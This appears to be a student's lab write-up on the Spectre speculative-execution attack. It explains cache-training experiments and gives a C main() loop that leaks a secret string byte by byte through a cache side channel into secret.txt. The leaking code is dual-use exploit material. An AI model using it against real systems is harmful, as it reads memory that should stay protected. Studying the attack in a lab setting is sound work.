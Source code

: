 # Task 3

In task 3 the SpectreExperiment.c program was used to cause an out-of-order execution. The CPU was trained to assume x < size as true so that line 2 (_array[97 * 4096 + DELTA]_) is executed even if the if condition isn't verified. When the script was executed this proved to be true since the key array was present in the cache.
Consequently, the line marked with a star (_\_mm\_clflush(&size);_) was commented. This line flushes variable _size_ from memory and causes the cpu to take longer in the retrieval of its value. This caused the attack to not succeed, the value was not flushed so the cpu could retrieve _size_ and didn't have the need to assume its value as larger than x.
astly, line 4 (_victim(i);_) was replace with _victim(i + 20)_. This time the CPU wasn't trained to assume the if condition (_if (x < size)_) as true. This causes line 2 (_temp = array[x * 4096 + DELTA]_) to not be executed and the array to not be stored in cache.

# Task 6

To reveal the secret value, the following code was used to print all the characters of the secret string to the file _secret.txt_. 

```
int main() {
    FILE *fp;
    fp = fopen("secret.txt", "w+");
    int i;
    uint8_t s;
    size_t index_beyond = (size_t)(secret - (char*)buffer);
    for(int m = 0; m < strlen(secret); m++) {
	flushSideChannel();
        for(i=0;i<256; i++) scores[i]=0;
	for (i = 0; i < 1000; i++) {
	    printf("*****\n");
	    spectreAttack(index_beyond + m);
	    usleep(10);
	    reloadSideChannelImproved();
	}
        int max = 1;
	for (i = 1; i < 256; i++){
	    if(scores[max] < scores[i]) max = i;
	}
	//fprintf(fp, "Reading secret value at index %ld\n", index_beyond);
	fprintf(fp, "%c", max, max);
	//fprintf(fp, "The number of hits is %d\n", scores[max]);
    }
    return 0;
}
```

The result was printed to a file because of the need to include line _printf("*****\n")_ which floods the output but it's necessary in order for the attack to succeed.

The file _secret.txt_:
![secret.txt](secret.png)
